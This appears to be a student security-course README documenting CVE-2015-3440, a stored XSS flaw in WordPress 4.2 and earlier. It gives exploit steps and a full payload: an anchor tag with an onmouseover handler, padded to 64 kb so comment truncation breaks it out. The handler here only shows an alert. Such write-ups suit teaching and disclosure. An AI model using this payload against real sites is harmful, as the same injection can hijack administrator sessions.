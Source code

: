 # Steps
#### Step 1 - Gain trust from the admin
######	Create a comment on a post.

#### Step 2 - Wait
###### Wait for approval from the admin.

#### Step 3 - Inject XSS
######	Comment the payload.
	<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>




# The types / classes of vulnerabilities involved and any related CVE identifiers
#### Unauthenticated Stored Cross-Site Scripting (XSS)

#### CVE-2015-3440 



# Affected versions and patches
#### Affected version
###### WordPress <= 4.2 

#### Patched in
###### version 4.2.1



# Demo
![alt text](https://github.com/Mikhail-Kreytser/Cybersecurity-Week7/blob/master/XSS/Demo.gif "XSS Demo")

#References
#### https://klikki.fi/adv/wordpress2.html
#### https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3440
